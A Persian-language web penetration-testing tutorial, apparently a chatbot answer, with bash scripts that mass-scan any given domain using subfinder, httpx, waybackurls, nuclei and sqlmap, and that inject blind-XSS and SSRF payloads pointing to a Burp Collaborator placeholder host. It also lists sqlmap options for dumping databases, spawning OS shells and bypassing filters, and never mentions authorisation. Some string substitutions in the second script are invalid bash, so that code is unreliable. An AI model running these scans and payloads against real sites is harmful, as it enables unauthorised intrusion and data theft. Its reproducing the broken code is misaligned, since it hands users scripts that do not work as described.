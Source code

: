 برای آسان‌تر و حرفه‌ای‌تر کردن فرایند تست نفوذ وب، می‌توانید از اسکریپت‌های پیشرفته‌تر و راهنمای گام‌به‌گام استفاده کنید که ترکیبی از ابزارهای قدرتمند مثل Burp Suite و SQLMap را در بر می‌گیرند. همچنین منابع آموزشی فارسی و ویدیویی معتبر به شما کمک می‌کنند سریع‌تر یاد بگیرید و تست‌ها را اجرا کنید.

1. نمونه اسکریپت پیشرفته برای اتوماتیک‌سازی تست نفوذ وب
```bash
#!/bin/bash

if [ -z "$1" ]; then
  echo "Usage: $0 target.com"
  exit 1
fi

target=$1

echo "[*] Discovering subdomains with subfinder..."
subfinder -d $target -silent | sort -u > subdomains.txt

echo "[*] Checking live domains with httpx..."
cat subdomains.txt | httpx -silent -threads 50 > live_domains.txt

echo "[*] Extracting URLs from Wayback Machine..."
cat live_domains.txt | waybackurls | sort -u > urls.txt

echo "[*] Running nuclei scan for vulnerabilities..."
cat urls.txt | nuclei -silent -t /path/to/nuclei-templates/ -o nuclei_results.txt

echo "[*] Running SQLMap on URLs with parameters..."
grep -E '\?.+=' urls.txt | while read url; do
  echo "[*] Testing SQL Injection on $url"
  sqlmap -u "$url" --batch --level=3 --risk=2 --threads=10 --random-agent --output-dir=./sqlmap_output
done

echo "[*] Scan completed. Check nuclei_results.txt and sqlmap_output for details."
```

این اسکریپت با ترکیب ابزارهای subfinder, httpx, waybackurls, nuclei و sqlmap، فرایند جمع‌آوری اطلاعات و اسکن آسیب‌پذیری‌ها را اتوماتیک می‌کند.

می‌توانید آن را با Burp Suite ترکیب کنید تا تست‌های دستی دقیق‌تر انجام دهید.

2. راهنمای گام‌به‌گام کار با بخش‌های کلیدی Burp Suite
Proxy: ترافیک مرورگر را رهگیری و تغییر دهید.

Repeater: درخواست‌ها را دستی تغییر داده و ارسال کنید (مناسب برای تست XSS، SQLi).

Intruder: حملات خودکار با پیلودهای مختلف (Brute Force، Fuzzing).

Scanner (نسخه Pro): اسکن خودکار آسیب‌پذیری‌های رایج.

Extender: افزودن افزونه‌های کاربردی از Burp App Store.

Collaborator: تست‌های پیشرفته Out-of-Band (OOB).

نکته:
برای شروع، روی Proxy و Repeater تمرکز کنید و پس از تسلط، از Intruder و Scanner استفاده کنید.

3. نکات مهم برای استفاده حرفه‌ای از SQLMap
تست SQL Injection روی پارامترهای GET و POST

استفاده از گزینه‌های --batch, --level, --risk برای تنظیم شدت تست

استخراج دیتابیس، جداول، ستون‌ها و داده‌ها

اجرای دستورات سیستم عامل در صورت امکان

استفاده از فایل‌های پیلود سفارشی برای تست‌های خاص

4. منابع آموزشی فارسی و ویدیویی برای یادگیری سریع‌تر
دوره آموزش تست نفوذ وب (وب هکینگ) در لرن فایلز

ویدیو آموزش Burp Suite در آپارات

مقاله و آموزش SQLMap در pentestcore.com

مقاله معرفی و آموزش Burp Suite در سایفکس

5. پیشنهاد برای تسریع فرایند تست نفوذ
ابتدا با اسکریپت اتوماتیک بالا، اطلاعات و آسیب‌پذیری‌های اولیه را جمع‌آوری کنید.

سپس با Burp Suite تست‌های دستی و دقیق‌تر را انجام دهید.

در نهایت با SQLMap روی پارامترهای مشکوک SQLi کار کنید.

از افزونه‌های Burp Suite برای تست‌های خاص بهره ببرید.

همیشه گزارش دقیق و مستند تهیه کنید.


=================================================================================================

برای شما یک راهنمای جامع و نمونه اسکریپت‌های تخصصی‌تر برای تست آسیب‌پذیری‌های خاص مثل XSS، SSRF، CSRF و همچنین راهنمای گام‌به‌گام استفاده از بخش‌های پیشرفته Burp Suite و SQLMap آماده کرده‌ام که فرایند تست نفوذ را بسیار آسان‌تر و حرفه‌ای‌تر می‌کند.

1. اسکریپت تخصصی برای تست XSS با Burp Suite و Burp Collaborator
نمونه پیلود XSS با Burp Collaborator (Blind XSS)
```bash
<script src="https://your-collaborator-id.burpcollaborator.net"></script>
```
این پیلود را در ورودی‌های مختلف سایت تزریق کنید (فرم‌ها، هدرها، کوکی‌ها).

اگر سرور به Burp Collaborator درخواست ارسال کند، یعنی آسیب‌پذیری Blind XSS وجود دارد.

در Burp Suite از منوی Burp Collaborator client، لاگ‌های دریافت شده را مشاهده کنید.

اتومیشن حمله XSS با Burp Suite Intruder
درخواست را در Proxy رهگیری کنید.

آن را به Intruder ارسال کنید.

پارامتر هدف را انتخاب و Payloadها را با انواع پیلودهای XSS (مثل <script>alert(1)</script>) پر کنید.

حمله را اجرا و پاسخ‌ها را تحلیل کنید.

2. اسکریپت نمونه برای تست SSRF (Blind SSRF با استفاده از Burp Collaborator)
# نمونه payload برای تزریق SSRF
```bash
http://your-target.com/api?url=http://your-collaborator-id.burpcollaborator.net
```
پارامترهای URL یا هر ورودی که سرور درخواست HTTP ارسال می‌کند را هدف قرار دهید.

اگر سرور به دامنه Burp Collaborator درخواست ارسال کند، SSRF تایید می‌شود.

3. تست CSRF با Burp Suite
گام‌های تست CSRF
درخواست POST حساس (مثلاً تغییر رمز عبور) را در Burp Proxy رهگیری کنید.

درخواست را به Repeater ارسال کنید.

هدر Origin یا Referer را حذف یا تغییر دهید.

درخواست را ارسال کنید و بررسی کنید که آیا سرور درخواست بدون این هدرها را قبول می‌کند یا خیر.

اگر بدون اعتبارسنجی CSRF قبول شد، آسیب‌پذیری وجود دارد.

اتوماسیون تست CSRF با Burp Intruder
پارامترهای توکن CSRF را حذف یا تغییر دهید.

واکنش سرور را بررسی کنید.

4. راهنمای گام‌به‌گام استفاده پیشرفته از Burp Suite
Proxy: رهگیری و ویرایش درخواست‌ها

Repeater: تست دستی و تغییر پارامترها

Intruder: حملات خودکار با پیلودهای سفارشی

Scanner (نسخه Pro): اسکن خودکار آسیب‌پذیری‌ها

Collaborator: کشف آسیب‌پذیری‌های Out-of-Band مثل Blind XSS و SSRF

Extender: افزودن افزونه‌های تخصصی برای تست‌های خاص

Sequencer: تحلیل امنیت توکن‌ها و نشست‌ها

Comparer: مقایسه درخواست‌ها و پاسخ‌ها برای تحلیل دقیق‌تر

5. راهنمای استفاده پیشرفته SQLMap
تست SQL Injection روی پارامترهای GET و POST

استفاده از گزینه‌های پیشرفته:

--level=5 و --risk=3 برای تست عمیق‌تر

--technique=BEUSTQ برای انتخاب تکنیک‌های خاص

--dump برای استخراج داده‌ها

--os-shell یا --os-pwn برای بهره‌برداری از سیستم عامل

استفاده از فایل‌های پیلود سفارشی با --tamper برای دورزدن فیلترها

اجرای تست روی چندین URL به صورت خودکار با اسکریپت Bash

6. نمونه اسکریپت Bash برای اتوماتیک‌سازی تست XSS، SSRF و CSRF با Burp Suite و SQLMap
```bash
#!/bin/bash

target=$1
collaborator="your-collaborator-id.burpcollaborator.net"

if [ -z "$target" ]; then
  echo "Usage: $0 target.com"
  exit 1
fi

echo "[*] Starting subdomain enumeration..."
subfinder -d $target -silent > subdomains.txt

echo "[*] Checking live hosts..."
cat subdomains.txt | httpx -silent > live_hosts.txt

echo "[*] Extracting URLs for testing..."
cat live_hosts.txt | waybackurls | sort -u > urls.txt

echo "[*] Injecting XSS payloads with Collaborator..."
while read url; do
  if [[ "$url" == *"="* ]]; then
    xss_payload="<script src='https://$collaborator'></script>"
    test_url="${url/$url#*=/$xss_payload}"
    echo "Testing $test_url"
    curl -s "$test_url" > /dev/null
  fi
done < urls.txt

echo "[*] Testing SSRF with Collaborator..."
ssrf_payload="http://$collaborator"
# نمونه تست روی پارامترهای URL که شامل url یا redirect هستند
grep -E 'url=|redirect=' urls.txt | while read url; do
  test_url="${url/=(*)/=$ssrf_payload}"
  curl -s "$test_url" > /dev/null
done

echo "[*] Running SQLMap on URLs with parameters..."
grep -E '\?.+=' urls.txt | while read url; do
  echo "Running sqlmap on $url"
  sqlmap -u "$url" --batch --level=3 --risk=2 --threads=10 --random-agent --output-dir=./sqlmap_output
done

echo "[*] Manual CSRF testing recommended with Burp Suite Repeater and Intruder."
```
7. منابع آموزشی فارسی و ویدیویی معتبر
معرفی جامع Burp Suite و آموزش استفاده از ماژول‌های مختلف:
امنافزار رایکا - آموزش Burp Suite

آموزش اتوماسیون حملات XSS با Burp Suite:
ویرگول - آموزش XSS با Burp Suite

آموزش کامل SQLMap و تست SQL Injection:
PentestCore - آموزش SQLMap

دوره ویدیویی جامع Burp Suite:
LearnFiles - آموزش Burp Suite

